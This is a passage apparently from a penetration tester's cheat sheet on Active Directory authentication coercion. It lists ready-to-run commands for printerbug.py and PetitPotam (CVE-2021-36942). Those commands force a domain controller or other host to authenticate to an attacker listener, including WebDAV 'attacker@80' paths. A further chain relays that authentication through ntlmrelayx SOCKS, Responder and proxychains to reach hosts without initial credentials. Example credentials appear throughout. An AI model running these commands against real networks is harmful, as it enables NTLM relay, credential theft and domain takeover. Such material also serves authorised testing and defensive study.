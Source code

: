 

### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@80/test.txt
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@SSL/test.txt
```




## PetitPotam (MS-EFSR)

**CVE-2021-36942**

* [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1)
* [https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e](https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e)
* [https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)

```
$ python3 PetitPotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11 [-pipe all]
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@80/test.txt 192.168.1.11
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@SSL/test.txt 192.168.1.11
Cmd > .\PetitPotam.exe 10.10.13.37 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@80/test.txt 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@SSL/test.txt 192.168.1.11 1
```

PetitPotam any host (not only a DC with null sessions allowed for the `IPC$` share) without initial creds via proxying through an authenticated session on behalf a DC-relayed machine account:

```
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
Something went wrong, check error status => SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

$ ntlmrelayx.py -ip 10.10.13.37 -t 192.168.1.11 -smb2support -socks --no-http-server --no-wcf-server --no-raw-server

$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 DC1.megacorp.local
ntlmrelayx> socks
ntlmrelayx> stopservers

$ sudo ./Responder.py -I eth0 -vA 
$ proxychains4 python3 Petitpotam.py -d MEGACORP -u 'DC1$' -no-pass 10.10.13.37 192.168.1.11
```
